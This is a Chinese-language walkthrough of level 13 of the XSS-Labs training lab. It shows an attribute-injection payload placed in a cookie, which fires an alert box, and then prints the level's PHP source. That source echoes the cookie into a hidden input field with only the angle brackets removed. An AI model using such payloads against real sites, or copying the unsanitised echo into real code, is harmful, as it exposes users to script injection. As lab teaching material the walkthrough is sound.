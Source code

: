 ### Cookie XSS

话不多说，直接上题（XSS-Labs）

![](https://pic1.imgdb.cn/item/68137e9a58cb8da5c8d635fa.png)

**第十三关**

查看源代码发现这次值是 `t_cook`，猜测为 `cookie`

![](https://pic1.imgdb.cn/item/6814741a58cb8da5c8d68b00.png)

更改 `cookie` 为上一关的 payload，然后刷新网页就能看到框了

```html
" onclick=javascript:alert() type="text
```

![](https://pic1.imgdb.cn/item/681474b258cb8da5c8d68b23.png)

成功弹窗

![](https://pic1.imgdb.cn/item/681474f158cb8da5c8d68b3c.png)

看一下源代码

```php+HTML
<!DOCTYPE html><!--STATUS OK--><html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<script>
window.alert = function()  
{     
confirm("完成的不错！");
 window.location.href="level14.php"; 
}
</script>
<title>欢迎来到level13</title>
</head>
<body>
<h1 align=center>欢迎来到level13</h1>
<?php 
setcookie("user", "call me maybe?", time()+3600);
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_COOKIE["user"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_cook"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
<center><img src=level13.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
</html>
```


